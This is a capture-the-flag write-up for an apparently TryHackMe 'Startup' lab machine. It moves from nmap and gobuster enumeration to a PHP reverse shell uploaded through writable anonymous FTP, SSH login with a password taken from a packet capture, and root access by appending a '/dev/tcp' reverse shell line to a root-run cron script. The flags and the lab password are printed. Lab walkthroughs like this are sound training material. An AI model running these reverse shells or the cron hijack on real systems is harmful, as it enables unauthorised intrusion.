





This box is kinda interesting thus quite easy. 

So first and foremost like everyother box, i ran the nmap scan 

```bash 
nmap -sVC -O -p- --min-rate 5000 -oN nmap.txt <target_ip> 
```
And we have the results 

```bash 
# Nmap 7.98 scan initiated Wed Feb  4 09:28:07 2026 as: /usr/lib/nmap/nmap --privileged -sVC -O -p- -T4 --min-rate 5000 -oN nmap.txt 10.48.135.212
Warning: 10.48.135.212 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.48.135.212
Host is up (0.098s latency).
Not shown: 65436 closed tcp ports (reset), 96 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.129.210
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

As we see, the `ftp` port could login anonymously so we could exploit that. But first, we also see the port 80 `http` open so let inspect the web (nothing seem appear in the web) -> so i ran the `gobuster`

```bash 
gobuster dir -u <target_ip> -w /usr/share/wordlist/rockyou.txt -b 403,404 -o gobuster.txt
```
And i saw a `files` directory within the web server



Most of the files are useless, but i saw the `ftp` open tho so i could put a reverse shell script to establish a conenction to the target machine 

As i was login with the anonymous credential, i saw the previous files that we exploited and a directory that could allow every user to read, execure and WRITE 



Download a reverse shell php file from `pentest monkey github` or other source of your choice (or you could create it)and then put it in the ftp folder 



Establish a listening port match with the script that you provided (mine is `1234`) 

```bash 
nc -lnvp 1234
```
Open the website with the subdomain `files/ftp` and open our reverse shell script 



We have the connection and found the first flag 



`What is the secret spicy soup recipe?` -> `love` 

Explore around and i found a directory that named quite weird `incidents` in the same directory 

```bash 
www-data@startup:/$ ls -la incidents/                        
total 40
drwxr-xr-x  2 www-data www-data  4096 Feb  4 16:40 .
drwxr-xr-x 25 root     root      4096 Feb  4 14:26 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
www-data@startup:/$ 
```

Examine it with wireshark -> found a password but it not for `www-data` but for another person named `lennie` in the `/home` directory 

`password: c4ntg3t3n0ughsp1c3`


```bash 
www-data@startup:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Nov 12  2020 .
drwxr-xr-x 25 root   root   4096 Feb  4 14:26 ..
drwx------  5 lennie lennie 4096 Feb  4 15:46 lennie
```
I found `ssh` open 'intentionally' so we could use the password with user `lennie` 1

```bash 
ssh lennie@<target_ip> 
1
# and c4ntg3t3n0ughsp1c3
```
and we have the `user.txt` flag

`user.txt: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

We saw a `scrip` directory with a `.sh` file in side it owned by `root` 

```bash 
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ 
```
I ran `cat /etc/crontab` and i return nothing. After a while, runnning 

```bash 
ps aux
```
and we have root ran lennie script every one minutes

```bash 
root     17992  0.0  0.0   4500   740 ?        Ss   15:49   0:00 /bin/sh -c /home/lennie/scripts/planner.sh
root     17993  0.0  0.2  11224  2996 ?        S    15:49   0:00 /bin/bash /home/lennie/scripts/planner.sh
root     17994  0.0  0.2  11224  3004 ?        S    15:49   0:00 /bin/bash /etc/print.sh
```

And lennie can So we injected a reverse shell script in /etc/print.sh since `lennie` have permission to change it 

```bash 
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
sh -i >& /dev/tcp/192.168.129.210/4444 0>&1
```
Establish another listening shell 

```bash 
nc -lnvp 4444
```
Wait a bit and we have `root` shell !!! 

```bash 
└─$ nc -lnvp 4444      
listening on [any] 4444 ...
connect to [192.168.129.210] from (UNKNOWN) [10.48.135.212] 44146
sh: 0: can't access tty; job control turned off
# whoami
root
```
and we have the final `root.txt` flag 

`root.txt: THM{f963aaa6a430f210222158ae15c3d76d}`
